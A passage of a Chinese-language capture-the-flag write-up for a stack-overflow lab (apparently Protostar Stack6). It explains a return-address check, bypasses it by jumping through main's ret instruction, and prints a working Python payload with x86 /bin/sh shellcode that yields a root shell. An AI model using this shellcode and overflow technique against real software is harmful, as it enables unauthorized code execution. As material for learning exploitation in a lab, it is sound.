 ``` c
{
  getpath();
}
```

函数`__builtin_return_address(0)`用来获取当前函数的返回地址，其中参数`0`表示获取的是当前函数的返回地址，若是`1`则表示获取当前函数的调用函数的返回地址，`2`则是再往上一层，以此类推。

从反汇编代码中我们可以看出函数`__builtin_return_address(0)`的结果就是`[ebp + 4]`。

言归正传，我们看到代码中对`getpath()`函数的返回地址做了检测，如果最高位字节为`0xbf`（就是在栈地址的范围），则程序直接退出。这样我们覆盖`getpath()`函数的返回地址为栈上我们的shell code地址，也无法执行了。

题目提示有三种解法：

- finding the duplicate of the payload
- ret2libc
- return orientated programming (ROP)

第一种暂时没能理解具体含义是什么，后两种应该是比较通用性的技巧。

### ret to .text

先不管提示，自己首先想，不能控制`getpath()`函数的返回地址为栈上的地址，那就去修改`main()`函数的返回地址为我们的shell code的地址。

而`main()`函数的返回地址又位于哪个位置呢？要分析其实也可以分析出来，但其实并不需要知道！`ret`指令实际上就是`pop eip`，所以我们可以将`getpath()`函数的返回地址覆盖为`main()`函数的`ret`指令的地址，并将下一个dword覆盖为shell code的地址即可。

`main()`函数的`ret`指令的地址为`0x08048508`，确定`getpath()`函数返回地址距离输入缓冲区的偏移为80，利用core dump找到程序实际运行时输入的缓冲区地址`0xbffff7fc`。

payload脚本：

``` python
#!/usr/bin/python
#coding=utf-8

shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80" + "\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80" + "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

#print len(shellcode)
print shellcode + (80 - len(shellcode)) * '\x90' + '\x08\x85\x04\x08' + '\xfc\xf7\xff\xbf'
```

然后顺利拿到root shell：

![Stack 6](stack6_0.png)

要注意到这种方法其实只是做了一步间接跳转，实际上执行的仍然是栈上的代码。
